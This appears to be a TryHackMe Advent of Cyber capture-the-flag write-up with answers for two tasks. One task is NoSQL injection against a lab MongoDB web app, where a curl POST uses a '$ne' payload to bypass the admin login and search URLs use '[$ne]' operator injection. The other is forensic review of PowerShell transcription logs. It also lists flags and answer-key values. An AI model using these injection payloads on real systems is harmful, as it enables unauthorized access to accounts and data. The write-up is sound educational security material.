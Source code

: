 ## Task 12

1. Interact with the MongoDB server to find the flag. What is the flag? 
```
THM{8814a5e6662a9763f7df23ee59d944f9}
```
2. We discussed how to bypass login pages as an admin. Can you log into the application that Grinch Enterprise controls as admin and retrieve the flag?
Use the knowledge given in AoC3 day 4 to setup and run Burp Suite proxy to intercept the HTTP request for the login page. Then modify the POST parameter.
```zsh
curlie -X POST http://10-10-248-127.p.thmlabs.com/login -d '{"username":"admin","password":{"$ne":"password"}}'

```
```
THM{b6b304f5d5834a4d089b570840b467a8}
```
3. Once you are logged in, use the gift search page to list all usernames that have guest roles. What is the flag?
```zsh
https://10-10-248-127.p.thmlabs.com/search?username[$ne]=ben&role=guest
```
```
THM{2ec099f2d602cc4968c5267970be1326}
```
4. Use the gift search page to perform NoSQL injection and retrieve the mcskidy record. What is the details record?
```zsh
https://10-10-248-127.p.thmlabs.com/search?username=mcskidy&role[$ne]=guest
```
```
ID:6184f516ef6da50433f100f4:mcskidy:admin
```

## Task 13

1. Open the first transcription log. You can see the commands and output for everything that ran within PowerShell, like whoami and systeminfo!
```
Microsoft Windows 11
```
2. What was the password set for the new "backdoor" account?
```
grinchstolechristmas
```
3. In one of the transcription logs,  the bad actor interacts with the target under the new backdoor user account, and copies a unique file to the Desktop. Before it is copied to the Desktop, what is the full path of the original file? 
```
C:\Users\santa\AppData\Local\Microsoft\Windows\UsrClass.dat
```
4. The actor uses a Living Off The Land binary (LOLbin) to encode this file, and then verifies it succeeded by viewing the output file. What is the name of this LOLbin?
```
certutil.exe
```
5. Drill down into the folders and see if you can find anything that might indicate how we could better track down what this SantaRat really is. What specific folder name clues us in that this might be publicly accessible software hosted on a code-sharing platform?
```
.github
```
6. Additionally, there is a unique folder named "Bag of Toys" on the Desktop! This must be where Santa prepares his collection of toys, and this is certainly sensitive data that the actor could have compromised. What is the name of the file found in this folder? 
```
bag_of_toys.zip
```